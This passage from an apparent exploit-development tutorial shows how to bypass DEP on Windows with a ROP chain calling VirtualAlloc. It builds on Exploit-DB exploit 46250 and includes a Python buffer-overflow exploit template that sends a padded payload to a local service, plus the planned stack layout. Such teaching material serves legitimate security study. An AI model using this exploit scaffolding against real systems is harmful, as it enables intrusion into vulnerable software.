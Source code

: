 For our demonstration here we'll keep as our base the exploit 46250 from exploitdb. Check the [link](https://www.exploit-db.com/exploits/46250) here.

So, we'll use the this template from the exploitdb as our exploit.

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [ ]
        return ''.join(pack('<L', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = b'\x41' * 1052
payload += pack("<L", (0x6ab2223e))  # ret
payload += rop_chain
payload += b'\x90' * 10
	
target = b'127.0.0.1'

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Crashed!"
```

Here we have the function of the VirtualAlloc API, which we will use in this example right now.

```C++
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

And this is what we are going to put on the stack to be executed.

```
XXXXXXXX -> KERNEL32!VirtualAllocStub
YYYYYYYY -> Return Address
XXXXXXXX -> lpAddress
00000001 -> dwSize
00001000 -> flAllocationType
00000040 -> flProtect
```
